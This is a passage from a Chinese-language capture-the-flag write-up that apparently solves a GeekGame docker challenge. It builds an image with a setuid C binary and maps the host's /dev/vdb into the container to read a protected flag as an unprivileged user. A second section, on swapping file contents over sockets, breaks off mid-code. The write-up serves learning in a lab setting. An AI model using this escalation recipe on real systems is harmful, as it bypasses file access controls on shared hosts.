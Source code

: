 > 和 `rz` 搏斗的一整天

一开始看到支持 ZMODEM，[一些不好的回忆](https://github.com/PKU-GeekGame/geekgame-3rd/tree/master/official_writeup/prob05-zserver)涌上心头。  
从箱底翻出 MobaXTerm 试图上传一个文件，一看，怎么被 skip 了？再试，再 skip？  
是不是 Windows 和 WSL 的文件系统不兼容啊，借室友的 Mac 用 iTerm2 试一下，怎么还是被 skip？  
于是就在这里卡了一整天。晚上吃饭的时候灵光乍现，意识到如果我们权限很低是不是不能随便写文件啊。随手打开 `/tmp` 尝试上传，成了！

### No Enough Privilege

看题目要求基本上是要上传一个自制的 docker image，用 `sudo docker run --rm -u 1000:1000` 在容器里越过权限读取到 flag。  
用 `ls -la` 注意到 `/flag` 是一个指向 `/dev/vdb` 的软链接。同时对比第二问的环境发现可以用 `--device` 来把容器外的 device 映射到容器内（老师你这个第二问题干里不是有第一问的解法吗x）  
于是我们可以创建一个 minimal image，在里面包括一个有 root 权限的脚本，从容器里映射好的 device 里读出 flag 即可。

```c
#include <stdio.h>
int main()
{
    FILE *f = fopen("/dev/vdb", "r");
    int c;
    while ((c = fgetc(f)) != EOF)
        putchar(c);
    fclose(f);
    return 0;
}
```

```Dockerfile
FROM busybox
COPY t /t
RUN chmod u+s /t
```

进入环境 `sudo docker image load` 后运行里面编译好的 `t` 即可：  
`sudo docker run --rm -u 1000:1000 --device=/dev/vdb:/dev/vdb {image_name} /t`

**`flag{dONT_1OAD_uNTRusT3D_1ma6e_0f86fac510_plz!}`**


## 看不见的彼方：交换空间

> 不枉我当 CS:APP 的 TA

阅读一遍题目，发现这不就是 `proxylab` 吗？立马拿出了我 TA 时候的代码开始手搓服务器。

### 小菜一碟

思路很简单，让 Alice 当 server 在本地监听一个端口，然后让 Bob 当 client 去建立一个 socket，这样两边就可以传输数据了。  
因为文件的大小是一样的，所以可以每轮互相传 1M 的数据，收到后用 `lseek()` 把 `fd` 的 offset 调回块的开头覆盖写入即可。  
Client 这里有个小坑是不知道这两个谁先运行，所以可能 client 先起来了但是 server 还没开始 listen。不过只要让 client 连接不上的时候 sleep 一会再试几次就行了。

**Alice (server)**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>
#include <errno.h>

#define PORT 12345
#define BLOCK_SIZE 1048576 // 1 MiB

ssize_t readn(int fd, char *buf, size_t n)
```